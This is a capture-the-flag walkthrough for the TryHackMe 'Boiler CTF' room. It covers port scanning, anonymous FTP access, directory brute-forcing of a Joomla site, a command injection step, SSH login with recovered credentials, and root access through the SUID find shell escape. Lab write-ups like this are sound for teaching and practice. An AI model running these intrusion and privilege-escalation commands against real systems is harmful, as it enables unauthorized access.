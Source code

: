 # [Boiler CTF](https://tryhackme.com/room/boilerctf2)

## Intermediate level CTF

# Questions #1

## Intermediate level CTF. Just enumerate, you'll get there.

### File extension after anon login

1. Enumerate ports with nmap

```Bash
nmap -p- -sV <IP>
```

[SCREEN01]

2. There is an ftp port on which we can log in anonymously

```Bash
ftp <IP>
anonymous
cd /
ls -la
get .info.txt
```

[SCREEN03]

3. The file is encoded with ROT13, and contains very important information ;)

### What is on the highest port?

### What's running on port 10000?

1. After enumerating the ports we know that on highest port there is `ssh`, and there is webmin running on the port 10000

[SCREEN01]

### What CMS can you access?

1. After running gobuster, we find out about `/joomla` endpoint

```Bash
gobuster dir -u http://<IP>:80 -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,html,php
```

[SCREEN02]

### The interesting file name in the folder?

1. Let's go deeper into Joomla

```Bash
gobuster dir -u http://<IP>:80/joomla/ -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,html,php
```

[SCREEN04]

2. The `/administrator` and `/_files` are the most interesting ones. I decided to search for more directories with `_` prefix. This way I stumbled upon `/_test` directory

```Bash
sed 's/^/_/' /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt > underscore-wordlist.txt
```

```Bash
gobuster dir -u http://<IP>/joomla/ -w underscore-wordlist.txt
```

[SCREEN05]

3. If we try command injection we can get a list of files

[SCREEN06]

# Questions #2

## You can complete this with manual enumeration, but do it as you wish

### Where was the other users pass stored?

1. In `log.txt`, we can find credentials to log in using ssh

[SCREEN07]

```Bash
ssh basterd@<IP> -p 55007
python -c 'import pty; pty.spawn("/bin/bash")'
ls
cat backup.sh
```

[SCREEN08]

### user.txt

1. Switch to our newly acquired user

```Bash
su stoner
ls -la
cat .secret
```

[SCREEN09]

### What did you exploit to get the privileged user?

1. `sudo -l` doesn't give us anything useful so let's search for SUID binaries

```Bash
find / -perm -u=s -type f 2>/dev/null
```

[SCREEN10]

2. Go to the [GTFOBins](https://gtfobins.github.io/gtfobins/find/) and search for the `find` command

```Bash
/usr/bin/find . -exec /bin/sh -p \; -quit
cat /root/root.txt
```

[SCREEN11]

